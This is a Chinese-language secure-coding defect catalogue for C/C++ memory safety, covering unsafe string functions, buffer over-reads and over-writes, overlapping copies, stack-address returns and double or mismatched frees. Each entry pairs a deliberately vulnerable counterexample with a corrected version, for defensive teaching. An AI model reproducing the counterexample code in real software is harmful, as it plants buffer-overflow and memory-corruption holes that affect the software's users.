使用了未受认可的内存操作类函数，包括标准库中的不安全函数（如strcpy、sprintf等）、产品或平台封装的不安全函数，以及自定义实现的内存操作函数。这些函数可能本身存在安全风险，或因使用不当引入漏洞。此外，对安全函数的封装可能导致部分安全特性丢失，而与华为Secure C库中函数名称相似的自定义函数可能引发混淆，增加误用风险。

建议优先使用华为Secure C库提供的安全函数，禁止实现与Secure C库函数名称相似的自定义函数，同时避免对安全函数进行封装。加强代码审查和测试，确保所有内存操作函数符合安全使用要求，避免因函数混淆或封装不当导致的安全问题。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠,可读,可测试

**缺陷防护全景**
**软件实现设计**
- 策略1：使用华为安全函数库中的安全函数或经华为认可的其他安全函数
  在设计阶段明确禁止使用不安全的内存操作函数，推荐使用华为安全函数库中的安全函数或经华为认可的其他安全函数。设计文档中应详细说明这些安全要求，确保开发人员在编码时遵循。

**编码**
- 策略1：使用华为安全函数库中的安全函数或经华为认可的其他安全函数
  开发人员在编写代码时，必须使用认可的安全函数，避免使用自定义的内存操作函数。特别注意函数命名，防止与安全函数库中的函数名称相似。
- 策略2：禁止使用内存操作类不安全函数
  内存操作类不安全函数（如strcpy、sprintf等）因使用不当可能导致缓冲区溢出等安全漏洞，因此在编码过程中禁止使用此类函数。
- 策略3：禁止封装、重命名安全函数
  封装或重命名安全函数会导致其安全增强功能丧失，增加缓冲区溢出等安全风险，因此在编码过程中禁止对安全函数进行封装或重命名。
- 策略4：必须检查安全函数返回值
  如果使用了安全函数，需要进行返回值检查。如果返回值表示错误，那么本函数一般情况下应该立即返回，不能继续执行。

**代码Review**
- 策略1：禁止调用不安全函数
  确保代码中没有不安全的函数调用，并检查函数命名是否可能导致混淆。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测问题，如调用不安全函数、重命名安全函数等。

**示例**
**案例1: 使用内存操作类不安全函数导致越界写**
**语言: **C

**描述**
使用未受认可的内存操作类函数（如strcpy、sprintf等），使用时容易因目标缓冲区大小未检查而引发安全问题。

**案例分析**
strcpy函数在复制字符串时不会检查目标缓冲区的大小，如果目标缓冲区较小，会导致越界写，从而覆盖相邻内存区域。

**反例**
```c
void Fun()
{
    char dest[10];  // 目标缓冲区大小为10
    char src[] = "Hello, World!";  // 源字符串长度为13

    strcpy(dest, src); // 不符合：使用strcpy将src复制到dest，但未检查缓冲区大小
}
```

**正例**
```c
void Fun()
{
    char dest[10];  // 目标缓冲区大小为10
    char src[] = "Hello, World!";  // 源字符串长度为13

    size_t dest_size = sizeof(dest);
    errno_t ret = strcpy_s(dest, dest_size, src); // 符合：使用strcpy_s，指定目标缓冲区大小，避免溢出
    if (ret != EOK) { // 校验返回值
        ...
    }
}
```

**修复建议**
1. 避免使用不安全函数：禁止使用strcpy、sprintf等不安全的内存操作函数。
2. 使用安全函数：优先使用华为Secure C库中的安全函数。
3. 需要进行安全函数返回值检查。

**案例2: 使用内存操作类不安全函数导致越界写**
**语言: **CPP

**描述**
使用未受认可的内存操作类函数（如strcpy、sprintf等），使用时容易因目标缓冲区大小未检查而引发安全问题。

**案例分析**
strcpy函数在复制字符串时不会检查目标缓冲区的大小，如果目标缓冲区较小，会导致越界写，从而覆盖相邻内存区域。

**反例**
```c
void Fun()
{
    char dest[10];  // 目标缓冲区大小为10
    char src[] = "Hello, World!";  // 源字符串长度为13

    strcpy(dest, src); // 不符合：使用strcpy将src复制到dest，但未检查缓冲区大小
}
```

**正例**
```c
void Fun1()
{
    std::string dest;
    std::string src = "Hello, World!";

    dest = src; // 符合：使用std::string来存储和操作字符串
}

void Fun2()
{
    char dest[10];  // 目标缓冲区大小为10
    char src[] = "Hello, World!";  // 源字符串长度为13

    size_t dest_size = sizeof(dest);
    errno_t ret = strcpy_s(dest, dest_size, src); // 符合：使用strcpy_s，指定目标缓冲区大小，避免溢出
    if (ret != EOK) { // 校验返回值
        ...
    }
}
```

**修复建议**
1. 使用std::string：优先使用C++标准库提供的std::string类来处理字符串，它能够自动管理内存，避免缓冲区溢出。
2. 避免使用不安全函数：禁止使用strcpy、sprintf等不安全的内存操作函数。
3. 使用安全函数：优先使用华为Secure C库中的安全函数。
4. 需要进行安全函数返回值检查。

#### CWD-1009-000 未受认可的内存安全函数

#### CWD-1009-001 使用内存操作类的标准库不安全函数，可能导致缓冲区溢出

#### CWD-1009-002 使用以函数指针封装的安全函数，可能导致缓冲区溢出

#### CWD-1009-003 使用以函数封装的安全函数，可能导致缓冲区溢出

#### CWD-1009-004 使用用宏重命名的安全函数，可能导致缓冲区溢出

#### CWD-1009-005 使用自实现的安全函数，可能导致缓冲区溢出

---

# CWD-1015 内存操作函数的源缓冲区访问长度设置不正确

**描述**
当程序未正确设置读取源缓冲区的长度（如：长度值超过源缓冲区分配内存上限）时，将触发对源缓冲区越界访问的行为，产生的安全风险包括：信息泄露、拒绝服务、或者被利用获取内存布局信息，绕过安全机制，辅助引发其它漏洞。因此，必须确保正确指定源缓冲区的访问长度。

**语言: **C,CPP

**严重等级**
严重

**cleancode特征**
安全

**缺陷防护全景**
**编码**
- 策略1：函数设计时，缓冲区及其对应大小要同时传递，如`void Func(const char *buf, size_t bufLen)`。
- 策略2：严格约束源缓冲长度
在操作缓冲区前，必须严格约束源缓冲区的长度，确保不超过源缓冲区实际有效范围，尤其是对于外部输入的参数，必须校验其合法性，例如，若源缓冲区容量为N，需确保传入的读取长度参数小于等于N。
- 策略3：动态计算边界
在某些场景下，使用`sizeof`运算符自动获取缓冲区实际大小，避免人工维护长度参数的错误风险。
- 策略4：内存安全语言
在资源允许情况下，逐步将高危模块迁移至`Rust`或`Go`等内存安全语言，从根本上消除缓冲区管理缺陷。

**代码Review**
- 策略1：重点危险代码筛查
定位内存操作函数，指针运算操作的位置，根据上下文审视对缓冲区操作的长度是否超出有效缓冲区范围。

**编译构建**
- 策略1：启用-D_FORTIFY_SOURCE、-Wstringop-overflow编译选项检测部分缓冲区操作的风险，具体参考《华为编译选项规范》

**代码检查**
- 策略1：工具静态安全扫描
  开启静态检查工具（如CodeCheck）对应的规则。

**示例**
**案例1: 数组越界读**
**语言: **C

**描述**
未对数组索引进行合法性校验，导致可能越界读取非法内存区域。

**反例**
```c
void unsafeRead(const uint8_t index)
{
    int arr[ARR_MAX] = {0};
    ...

    int value = arr[index]; // 不符合：可能会导致越界读
}
```

**正例**
```c
void unsafeRead(const uint8_t index)
{
    int arr[ARR_MAX] = {0};
    ...

    if (index < ARR_MAX) {  // 符合：校验index合法性
        int value = arr[index];
    }
    ...
}
```

**修复建议**
参数输入校验：若`index`来源于外部输入（如用户输入、网络请求），需在使用前校验其合法性。

#### CWD-1015-000 源缓冲区访问长度不正确

#### CWD-1015-001 使用来自内部数据的数值，传递过程未经过计算，作为源缓冲区访问长度前未校验，导致源缓冲区读越界

#### CWD-1015-002 使用来自内部数据的数值，传递过程未经过计算，作为源缓冲区访问长度前校验错误，导致源缓冲区读越界

#### CWD-1015-003 使用来自内部数据的数值，传递过程经过正确计算，作为源缓冲区访问长度前未校验，导致源缓冲区读越界

#### CWD-1015-004 使用来自内部数据的数值，传递过程经过正确计算，作为源缓冲区访问长度前校验错误，导致源缓冲区读越界

#### CWD-1015-005 使用来自内部数据的数值，传递过程经过错误计算，作为源缓冲区访问长度前未校验，导致源缓冲区读越界

#### CWD-1015-006 使用来自内部数据的数值，传递过程经过错误计算，作为源缓冲区访问长度前校验错误，导致源缓冲区读越界

#### CWD-1015-007 使用来自外部数据的数值，传递过程未经过计算，作为源缓冲区访问长度前未校验，导致源缓冲区读越界

#### CWD-1015-008 使用来自外部数据的数值，传递过程未经过计算，作为源缓冲区访问长度前校验错误，导致源缓冲区读越界

#### CWD-1015-009 使用来自外部数据的数值，传递过程经过正确计算，作为源缓冲区访问长度前未校验，导致源缓冲区读越界

#### CWD-1015-010 使用来自外部数据的数值，传递过程经过正确计算，作为源缓冲区访问长度前校验错误，导致源缓冲区读越界

#### CWD-1015-011 使用来自外部数据的数值，传递过程经过错误计算，作为源缓冲区访问长度前未校验，导致源缓冲区读越界

#### CWD-1015-012 使用来自外部数据的数值，传递过程经过错误计算，作为源缓冲区访问长度前校验错误，导致源缓冲区读越界

---

# CWD-1016 内存操作函数的目的缓冲区访问长度设置不正确

**描述**
目的缓冲区访问长度不正确指写入数据超出其容量，导致缓冲区溢出，可能引发程序崩溃、数据篡改或恶意代码执行。建议：严格校验输入长度，使用限制拷贝函数，并借助工具检测越界操作。

在向目的缓冲区写入数据时，程序设置的写入长度错误，超出目的缓冲区的有效范围（如数组边界），致使该缓冲区写溢出，破坏相邻内存数据，引发程序崩溃、甚至被攻击者植入恶意代码等安全风险。在编码时，应严格校验数据长度与缓冲区大小关系，或优先使用带边界检查的安全函数（如strcpy_s替换strcpy，memcpy_s替换memcpy），确保长度可控；

**语言: **C,CPP

**严重等级**
严重

**cleancode特征**
安全

**缺陷防护全景**
**编码**
- 策略1：函数设计时，缓冲区及其对应大小要同时传递，如`void Func(const char *buf, size_t bufLen)`。
- 策略2：使用带边界检查的安全函数，如：strcpy_s替换strcpy，memcpy_s替换memcpy，确保长度可控。
- 策略3：严格约束源缓冲长度
在操作缓冲区前，必须严格约束目的缓冲区的长度，确保不超过目的缓冲区实际有效范围，尤其是对于外部输入的参数，必须校验其合法性。
- 策略4：动态计算边界
在某些场景下，使用`sizeof`运算符自动获取缓冲区实际大小，避免人工维护长度参数的错误风险。
- 策略5：内存安全语言
在资源允许情况下，逐步将高危模块迁移至`Rust`或`Go`等内存安全语言，从根本上消除缓冲区管理缺陷。

**代码Review**
- 策略1：重点危险代码筛查
定位内存操作函数，指针运算操作的位置，根据上下文审视对缓冲区操作的长度是否超出有效缓冲区范围。

**编译构建**
- 策略1：启用-D_FORTIFY_SOURCE、-Wstringop-overflow编译选项检测部分缓冲区操作的风险，具体参考《华为编译选项规范》

**代码检查**
- 策略1：工具静态安全扫描
  开启静态检查工具（如CodeCheck）对应的规则。

**示例**
**案例1: itoa/ltoa不正确使用**
**语言: **C

**描述**
因为32位宽的int型，其十进制取值范围在-2147483648~2147483647，所以将其转化为十进制字符串，最大存储空间需要12个字节（含null结束符），案例中，程序试图将数字转为字符串，但是目标存储空间的预留长度不足，可能会溢出。

**反例**
```c
void StringOverflowBad()
{
    int num = ...
    char str[8];
    itoa(num, str, 10);  // 不符合：str可能会被写越界
}
```

**正例**
```c
void StringOverflowBad()
{
    int num = ...
    char str[16]; // 有时会考虑字节对齐定义保留的长度，这里选择了16
    int ret = sprintf_s(str, sizeof(str), "%d", num);
    ...  // 处理错误
}
```

**修复建议**
整数转字符串时，确保目的缓冲区有足够的长度存储转换后的字符串，防止溢出；

#### CWD-1016-000 目的缓冲区访问长度不正确

#### CWD-1016-001 使用来自内部数据的数值，传递过程未经过计算，作为目的缓冲区访问长度前未校验，导致目的缓冲区写越界

#### CWD-1016-002 使用来自内部数据的数值，传递过程未经过计算，作为目的缓冲区访问长度前校验错误，导致目的缓冲区写越界

#### CWD-1016-003 使用来自内部数据的数值，传递过程经过正确计算，作为目的缓冲区访问长度前未校验，导致目的缓冲区写越界

#### CWD-1016-004 使用来自内部数据的数值，传递过程经过正确计算，作为目的缓冲区访问长度前校验错误，导致目的缓冲区写越界

#### CWD-1016-005 使用来自内部数据的数值，传递过程经过错误计算，作为目的缓冲区访问长度前未校验，导致目的缓冲区写越界

#### CWD-1016-006 使用来自内部数据的数值，传递过程经过错误计算，作为目的缓冲区访问长度前校验错误，导致目的缓冲区写越界

#### CWD-1016-007 使用来自外部数据的数值，传递过程未经过计算，作为目的缓冲区访问长度前未校验，导致目的缓冲区写越界

#### CWD-1016-008 使用来自外部数据的数值，传递过程未经过计算，作为目的缓冲区访问长度前校验错误，导致目的缓冲区写越界

#### CWD-1016-009 使用来自外部数据的数值，传递过程经过正确计算，作为目的缓冲区访问长度前未校验，导致目的缓冲区写越界

#### CWD-1016-010 使用来自外部数据的数值，传递过程经过正确计算，作为目的缓冲区访问长度前校验错误，导致目的缓冲区写越界

#### CWD-1016-011 使用来自外部数据的数值，传递过程经过错误计算，作为目的缓冲区访问长度前未校验，导致目的缓冲区写越界

#### CWD-1016-012 使用来自外部数据的数值，传递过程经过错误计算，作为目的缓冲区访问长度前校验错误，导致目的缓冲区写越界

**业界缺陷**

- [CWE-806: Buffer Access Using Size of Source Buffer](https://cwe.mitre.org/data/definitions/806.html)
---

# CWD-1017 内存拷贝重叠

**描述**
在使用内存拷贝函数（如 memcpy）时，源内存区域与目标内存区域存在物理重叠，导致拷贝过程中源数据被意外覆盖或破坏的现象。例如，若源地址的末尾部分与目标地址的开头部分重叠，拷贝时源数据可能尚未完全读取就被写入覆盖。

在使用内存拷贝函数（如 memcpy）时，若源与目的缓冲区存在物理重叠（如源数据尾部覆盖目标起始位置），导致拷贝过程中源数据被意外覆盖或破坏的行为。该缺陷会使数据错误、程序崩溃（如触发段错误）或其它安全漏洞（如利用覆盖控制程序的行为）。

在内存操作前，需考虑源与目标区域是否存在重叠风险，建议优先使用支持内存重叠拷贝的`memmove_s`替代`memcpy_s`。

**语言: **C,CPP

**严重等级**
严重

**cleancode特征**
安全

**缺陷防护全景**
**编码**
- 策略1：明确函数区别
源/目的缓冲区有重叠时强制改用memmove_s（支持重叠拷贝），避免使用memcpy_s；
- 策略2：前置地址检查
拷贝前比较指针区域，如果发现源与目的缓冲区有重叠时，调整代码，如：源与目的缓冲区指向同一个内存、源与目的缓冲区之间的差小于拷贝长度等；

**开发者测试**
- 策略1：函数选择
所有可能涉及内存重叠的拷贝操作（如数据移位、缓冲区搬移）**统一采用memmove_s**，禁用memcpy_s，确保重叠场景下数据完整性。
- 策略2：前置检查
1）在调用内存操作函数前，增加重叠判断逻辑（如比较src和dst地址及拷贝长度），若存在重叠，则触发日志告警或错误码返回，阻断高风险操作。
2）对动态计算的指针偏移（如buf + offset）进行范围检查，确保其未超出缓冲区边界或与其他活跃指针范围交叉。
- 策略3：缓冲区隔离设计
函数接口设计时，严格分离输入（const指针）与输出指针，禁止同一缓冲区同时承担两种角色。

**代码Review**
- 策略1：重点关注内存拷贝函数，`memcpy_s`、`strcpy_s`、`memcpy`，检查源/目的缓冲区是否存在地址重叠，尤其关注由同一地址偏移而来的源/目的缓冲区。

**代码检查**
- 策略1：工具静态安全扫描
  开启静态检查工具（如CodeCheck）对应的规则。

**示例**
**案例1: 使用memcpy_s函数进行重叠拷贝**
**语言: **C

**描述**
代码使用memcpy_s时，源指针`q`与目标指针`p`的拷贝区域存在2字节重叠，拷贝时会破坏源数据。

**反例**
```c
void TestBadCase()
{
    ...
    char sz[MAX_LEN] = {...};  // MAX_LEN = 10
    char *p = sz + OFFSET_3;   // OFFSET_3 = 3
    char *q = sz + OFFSET_5;   // OFFSET_5 = 5

    /* 不符合:  重叠拷贝，应该使用memmove_s */
    ret = memcpy_s(p, MAX_LEN - OFFSET_3, q, OFFSET_3); // 拷贝大小是3
    ...
}
```

**正例**
```c
void TestGoodCase()
{
    ...
    char sz[MAX_LEN] = {...};  // MAX_LEN = 10
    char *p = sz + OFFSET_3;
    char *q = sz + OFFSET_5; // offset是2

    ret = memmove_s(p, MAX_LEN - OFFSET_3, q, OFFSET_3); // 使用memmove_s
    ...
}
```

**修复建议**
`memcpy_s`不支持重叠操作，应改用`memmove_s`。

#### CWD-1017-000 内存拷贝重叠

#### CWD-1017-001 使用memcpy_s拷贝重叠内存对象，可能破坏源数据

---

# CWD-1019 返回栈变量地址

**描述**
返回栈变量地址”指在函数中将局部变量（栈内存）的地址传递到其作用域外。由于栈内存在函数退出后会被系统自动回收，外部访问该地址时会引发未定义行为（数据错误、崩溃等）。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全

**缺陷防护全景**
**软件实现设计**
- 策略1：明确生命周期管理
在设计阶段，需强制规定栈变量的作用域边界，禁止跨作用域传递其地址。例如：函数内局部变量地址不得通过返回值、全局变量或外部对象成员泄露。
- 策略2：接口约束
定义API时限制返回值类型，如禁止返回指向局部数据的指针或引用，改为返回拷贝或封装为安全的句柄。

**编码**
- 策略1：禁止高危操作，编码中明确禁止以下行为
（1）返回局部变量地址（如return &local_var;）。
（2）将局部变量地址赋值给全局变量或长生命周期对象（如`g_ptr` = `&local_var`;）。
- 策略2：使用安全替代方案
（1）优先通过值传递返回数据。
（2）需要传递指针时，使用堆内存+智能指针（如C++ std::make_unique），或依赖容器（如std::vector）自动管理内存。

**开发者测试**
- 策略1：动态内存检测工具
集成工具如AddressSanitizer (ASan) 或 Valgrind，检测运行时访问已释放栈内存的非法行为（如悬空指针解引用）。
- 策略2：针对性单元测试
构造测试用例，在函数返回后尝试通过泄露的指针访问原栈变量，验证是否触发断言、崩溃或被工具拦截。

**代码Review**
- 策略1：聚焦指针流向
审查所有函数返回值、全局变量赋值、外部对象成员初始化，确认无直接或间接传递栈变量地址的情况。
- 策略2：检查资源管理策略
确保传递的指针或引用来源合法（如堆内存或全局数据），且通过智能指针、RAII等机制明确管理生命周期。
- 策略3：关注“隐蔽”场景
如：结构体/类成员保存局部变量地址、回调函数参数传递栈变量地址等“隐蔽”场景。

**代码检查**
- 策略1：工具静态安全扫描
  开启静态检查工具（如CodeCheck）对应的规则。

**集成测试**
- 策略1：动态模糊测试（Fuzzing）
结合 AFL、libFuzzer 进行压力测试，通过大规模随机输入触发非法内存访问，验证系统健壮性。
- 策略2：内存诊断模式
在集成测试环境中启用 ASan 或 UBSan（Undefined Behavior Sanitizer），实时捕获未定义行为。

**示例**
**案例1: 返回局部数组地址**
**语言: **C

**描述**
`get_local_array`返回局部数组`arr`的首地址，但函数返回后，该数组的内存已被释放。
`main`中通过`ptr`访问时，实际操作的是无效内存，导致数据错乱或段错误。

**反例**
```c
#include <stdio.h>  

// 返回局部数组首地址的函数  
int* get_local_array() {  
    int arr[3] = {1, 2, 3};  // 栈上分配的数组  
    return arr;               // 错误：返回栈内存地址  
}  

int main() {  
    int *ptr = get_local_array();  
    printf("%d\n", ptr[0]);   // 可能输出随机值或程序崩溃  
    return 0;  
}  
```

**正例**
```c
int* safe_array() {  
    int* arr = malloc(3 * sizeof(int));  // 堆分配  
    ...
    return arr;  // 返回堆地址（需调用者手动free）  
}  
```

**修复建议**
使用堆内存的方式，传递堆变量地址，用完后，需要调用者手动释放。

#### CWD-1019-000 return栈变量地址

#### CWD-1019-001 在函数内定义的栈变量，通过return语句返回栈变量地址，函数外使用该地址导致使用无效内存

#### CWD-1019-002 在函数内定义的栈变量，通过return语句返回栈变量引用，函数外使用该引用导致使用无效内存

#### CWD-1019-003 在函数内定义的栈变量，通过函数参数保存栈变量地址，函数外使用该地址导致使用无效内存

#### CWD-1019-004 在函数内定义的栈变量，通过函数参数保存栈变量引用，函数外使用该引用导致使用无效内存

#### CWD-1019-005 函数内有多层作用域，在内层作用域定义的栈变量，通过指针指向其地址，外层作用域使用该地址导致使用无效内存

#### CWD-1019-006 函数内有多层作用域，在内层作用域定义的栈变量，通过引用指向其地址，外层作用域使用该引用导致使用无效内存

#### CWD-1019-007 在函数内定义的栈变量，通过全局变量保存栈变量地址，函数外使用该地址导致使用无效内存

#### CWD-1019-008 在函数内定义的栈变量，通过全局变量保存栈变量引用，函数外使用该引用导致使用无效内存

#### CWD-1019-009 在函数内定义的栈变量，通过全局变量内的lambda捕获栈变量引用，函数外使用该引用导致使用无效内存

#### CWD-1019-010 在函数内定义的栈变量，通过static变量内的lambda捕获栈变量引用，函数外使用该引用导致使用无效内存

#### CWD-1019-011 函数内定义的栈变量，通过lambda捕获引用并在另一线程执行，函数返回后栈变量失效，导致使用无效内存

**业界缺陷**

- [CWE-562: Return of Stack Variable Address](https://cwe.mitre.org/data/definitions/562.html)
---

# CWD-1021 释放非堆内存

**描述**
栈内存是由编译器自动管理的，不需要手动释放。静态变量和全局变量的内存是由编译器在程序启动时分配的，它们在整个程序运行期间一直存在，也不需要手动释放。如果手动释放这些内存，会破坏内存管理数据结构，可能导致程序崩溃。

堆内存则是通过动态内存分配函数（如malloc、new）分配的内存区域，需要手动释放。与栈内存和静态/全局变量不同，堆内存的生命周期由程序员控制，必须通过free或delete等函数显式释放。因此，仅对通过动态内存分配函数分配的堆内存使用手动释放，避免释放非堆内存，以防止程序崩溃或内存损坏。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**编码**
- 策略1：禁止释放非堆内存
  确保只释放通过动态内存分配（如malloc、new）获得的内存，禁止释放栈或静态内存。

**代码Review**
- 策略1：检查内存操作
  审查内存分配和释放的代码，确保无手动释放栈或静态内存操作。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测释放栈或静态内存问题。

**示例**
**案例1: 使用free释放静态变量的内存**
**语言: **C

**描述**
静态变量其内存由编译器在程序启动时分配，并在整个程序运行期间存在。使用free函数尝试释放其内存是错误的。

**反例**
```c
void Example()
{
    static int staticVar;
    free(&staticVar); // 不符合：释放静态变量的内存
}
```

**正例**
```c
void Example()
{
    static int staticVar;
    // 符合：无手动释放操作
}
```

**修复建议**
禁止释放静态变量的内存。

**案例2: 使用delete释放静态变量的内存**
**语言: **CPP

**描述**
静态变量其内存由编译器在程序启动时分配，并在整个程序运行期间存在。使用delete尝试释放其内存是错误的。

**反例**
```c
void Example()
{
    static int staticVar;
    delete &staticVar; // 不符合：释放静态变量的内存
}
```

**正例**
```c
void Example()
{
    static int staticVar;
    // 符合：无手动释放操作
}
```

**修复建议**
禁止释放静态变量的内存。

#### CWD-1021-000 释放非堆内存

#### CWD-1021-001 手动释放静态区上定义的静态全局变量，导致内存损坏或程序崩溃

#### CWD-1021-002 手动释放静态区上定义的静态局部变量，导致内存损坏或程序崩溃

#### CWD-1021-003 手动释放静态区上定义的非静态全局变量，导致内存损坏或程序崩溃

#### CWD-1021-004 手动释放栈上定义的非静态局部变量，导致内存损坏或程序崩溃

**业界缺陷**

- [CWE-590: Free of Memory not on the Heap](https://cwe.mitre.org/data/definitions/590.html)
---

# CWD-1022 内存的申请和释放函数未配对

**描述**
内存的申请和释放函数未配对是指在程序中使用了不匹配的内存管理函数，例如用`new`申请内存却用`free`释放，或者用`malloc`申请内存却用`delete`释放。使用不匹配的内存申请和释放函数可能会导致内存泄漏、程序崩溃或不可预测的行为。为避免此类问题，应严格确保内存申请和释放函数配对使用，例如`new`与`delete`、`new[]`与`delete[]`、`malloc`与`free`。同时，建议使用智能指针（如C++的`unique_ptr`或`shared_ptr`）来自动管理内存，减少手动操作的错误风险。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：明确内存管理策略
  在设计阶段，明确内存管理的责任，采用一致的内存分配和释放策略，确保所有内存操作都遵循既定规则。
- 策略2：使用智能指针
  使用C++的智能指针来自动管理内存，减少手动管理错误。

**编码**
- 策略1：正确使用内存函数
  确保使用正确的内存管理函数，如malloc与free配对，new与delete配对，禁止混用。

**代码Review**
- 策略1：检查内存操作
  审查内存分配和释放的代码，确保函数配对正确，指针管理无误。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测内存的申请和释放函数未配对问题。

**示例**
**案例1: 自定义VOSMalloc函数未使用配对的VOSFree释放**
**语言: **C

**描述**
使用自定义的VOSMalloc函数申请内存，但错误地用标准库的free函数释放内存。

**反例**
```c
void Example(Ctx ctx)
{
    char *ptr = NULL;
    bool ret = VOSMalloc(ctx, &ptr);
    if (!ret) {
        ... // 处理返回值错误
    }
    ...  // 业务处理
    free(&ptr); // 不符合：用free释放VOSMalloc分配的内存
}
```

**正例**
```c
void Example(Ctx ctx)
{
    char *ptr = NULL;
    bool ret = VOSMalloc(ctx, &ptr);
    if (!ret) {
        ... // 处理返回值错误
    }
    ...  // 业务处理
    VOSFree(&ptr); // 符合：用VOSFree释放VOSMalloc分配的内存
}
```

**修复建议**
使用配对的内存释放函数：确保使用与内存申请函数相对应的释放函数。对于自定义内存管理函数，应先仔细查阅函数的使用说明，确保其是否需要配对使用。若需配对使用，则在编写代码时必须严格遵循。

**案例2: 使用delete释放malloc申请的动态内存**
**语言: **CPP

**描述**
内存管理需要特别注意内存分配和释放的配对。malloc 和 free 是 C 标准库中的函数，用于动态内存分配和释放，而 new 和 delete 是 C++ 的运算符，用于管理动态内存。如果使用 delete 释放通过 malloc 分配的内存，会导致内存管理不一致，可能引发内存损坏。

**反例**
```cpp
void Example()
{
    char *buffer = (char *)malloc(BUFF_LENGTH);
    if (buffer == NULL) {
        ... // 处理 malloc() 错误
    }
    ...  // 业务处理
    delete buffer; // 不符合：用delete释放malloc分配的内存
}
```

**正例**
```cpp
void Example()
{
    char *buffer = (char *)malloc(BUFF_LENGTH);
    if (buffer == NULL) {
        ... // 处理 malloc() 错误
    }
    ...  // 业务处理
    free(buffer); // 符合：用free释放malloc分配的内存
}
```

**修复建议**
确保内存分配和释放函数配对：
- 使用malloc分配内存时，必须使用free释放；
- 使用new操作符创建的对象，只能由delete操作符来销毁。
- 使用new[]操作符创建的对象数组，只能由delete[]操作符来销毁。

#### CWD-1022-000 内存的申请和释放函数未配对

#### CWD-1022-001 用标准库函数申请的内存，使用不匹配的释放函数，导致内存释放错误

#### CWD-1022-002 自定义申请和释放配对函数，使用时用自定义函数申请内存，而使用不匹配的释放函数，导致内存释放错误

**业界缺陷**

- [CWE-762: Mismatched Memory Management Routines](https://cwe.mitre.org/data/definitions/762.html)
---

# CWD-1023 释放未在缓冲区起始处的指针

**描述**
在动态内存管理中，释放内存时必须确保指针指向内存块的起始位置。如果指针未指向整段内存的开始处，释放内存时将无法正确回收内存，导致内存管理错误，这可能会导致程序崩溃。因此，禁止直接对原始指针进行算术运算，建议使用辅助指针处理偏移，确保释放内存时指针指向起始位置。

**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**编码**
- 策略1：明确释放内存的地址
  保持原始指针始终指向内存块的起始位置，以确保每次释放内存时，指针指向内存块的起始位置。
  如果需要对指针进行偏移操作，建议使用辅助指针来处理偏移。

**代码Review**
- 策略1：明确释放内存的地址
    审查内存管理代码，确保所有指针在释放前都指向正确的内存块起始位置。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测释放未在缓冲区起始处的指针问题。

**示例**
**案例1: 释放内存时指针未指向内存块起始位置**
**语言: **C

**描述**
释放内存时必须确保指针指向内存块的起始位置。如果指针指向内存块的中间位置，free函数将无法正确释放内存。

**反例**
```c
void Example()
{
    char *ptr = (char *)malloc(LEN);
    if (ptr == NULL) {
        ... // 处理错误
    }
    ...  // 业务处理
    ptr++; // 指针偏移到内存块的第二个位置
    Use(ptr);
    free(ptr); // 不符合：释放内存块的中间位置
}
```

**正例**
```c
void Example()
{
    char *ptr = (char *)malloc(LEN);
    if (ptr == NULL) {
        ... // 处理错误
    }
    ...  // 业务处理
    char *newPtr = ptr; // 使用新指针处理偏移
    newPtr++; // 指针偏移到内存块的第二个位置
    Use(newPtr);
    free(ptr); // 符合：释放内存块的起始位置
}
```

**修复建议**
1. 避免直接对原始指针进行算术运算：如果需要对指针进行偏移操作，建议使用辅助指针（如newPtr）来处理偏移，保持原始指针始终指向内存块的起始位置。
2. 确保释放内存时指针指向起始位置：在调用释放函数之前，检查指针是否指向内存块的起始位置。

#### CWD-1023-000 释放未在缓冲区起始处的指针

#### CWD-1023-001 申请的内存指针，在代码中被偏移，释放时使用偏移后的指针，导致内存管理错误

**业界缺陷**

- [CWE-761: Free of Pointer not at Start of Buffer](https://cwe.mitre.org/data/definitions/761.html)
---

# CWD-1025 双重释放内存

**描述**
双重释放内存（Double Free）是指对同一块内存进行二次重复释放，会导致未定义行为。能带来双重释放的主要错误操作有：


1. 当一块内存被一个指针引用时，对该指针进行了二次释放。2. 当一块内存被两个指针引用时，对这两个指针都进行了释放。
预防措施：


1. 小心内存管理：避免在多个地方释放同一块内存。2. 设置指针为 NULL：在释放内存后，将指针设置为 NULL，这样可以避免再次释放。3. 使用智能指针（在 C++ 中）：使用智能指针来自动管理内存，减少手动管理带来的风险。
**语言: **C,CPP

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：使用RAII、智能指针
  在设计阶段选择使用RAII、智能指针（如C++中的std::unique_ptr或std::shared_ptr），以自动管理内存生命周期，减少过期指针的风险。

**编码**
- 策略1：释放后置空
  在代码中，每次释放指针后立即将其设为NULL或nullptr，防止悬空指针的使用。

**代码Review**
- 策略1：指针使用审查
  特别关注指针的释放和置空，检查指针释放后是否设为NULL，避免多余释放。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测双重释放问题。

**示例**
**案例1: 对同一个指针进行二次释放**
**语言: **C

**描述**
如果一个指针被释放后，再次释放同一内存块，就会导致双重释放内存问题。

**反例**
```c
void Example()
{
    char *buffer = (char *)malloc(BUFF_LENGTH);
    if (buffer == NULL) {
        ... // 处理 malloc() 错误
    }
    ...  // 业务处理
    free(buffer); // 第一次释放内存
    free(buffer); // 不符合：再次释放同一内存块
}
```

**正例**
```c
void Example()
{
    char *buffer = (char *)malloc(BUFF_LENGTH);
    if (buffer == NULL) {
        ... // 处理 malloc() 错误
    }
    ...  // 业务处理
    free(buffer); // 第一次释放内存
    buffer = NULL; // 符合：buffer 已经是 NULL，可避免后续代码的多余释放
}
```

**修复建议**
释放内存后置空指针：在释放内存后，立即将指针设置为 NULL，避免误操作导致的双重释放。

#### CWD-1025-000 双重释放内存

#### CWD-1025-001 在单进程/线程下，内存释放后，指向内存的全局指针和其别名都未被置空或赋予新值，后续再次释放该悬空指针，导致访问已释放内存

